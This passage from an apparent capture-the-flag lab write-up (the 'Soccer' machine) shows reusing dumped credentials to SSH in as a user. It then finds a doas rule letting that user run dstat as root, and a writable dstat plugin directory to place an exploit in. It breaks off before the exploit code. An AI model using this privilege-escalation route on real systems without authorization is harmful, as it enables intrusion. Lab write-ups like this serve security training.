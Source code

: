```sh
| 59902 | abcd@a            | abcd                 | abcd     |
+-------+-------------------+----------------------+----------+
```

We got player user credentials. We can try to use them to log via ssh, 
or, if that doesn't work, switch to that user with su from www-data user.

```
ssh player@soccer.htb
player@soccer.htb's password:
player@soccer:~$ ls
user.txt
```

SSH works and we collect user flag.

# Shell as root

After checking with sudo -l, user player cannot run any commands
with it. Running linpeas didn't yield any obvious attack vectors.
One interesting thing on this system is existence of doas, alternative
to sudo. Maybe current user can run some command with it instead of 
sudo.

First, we find it's config file:

```sh
> find / -type f -name "doas.conf" 2>/dev/null
/usr/local/etc/doas.conf
```

Then, we read it:

```sh
> cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

We can see that /usr/bin/dstat is possible to run as root.
We can use that, as dstat has plugin system, allowing
the user to execute arbitrary python code with it.

First, we search for dstat directories:

```sh
> find / -type d -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
```

The directory /usr/local/share/dstat is writeable to us,
and we use that to place our exploit here:

```sh
> touch dstat_exploit.py
> vim dstat_exploit.py
```
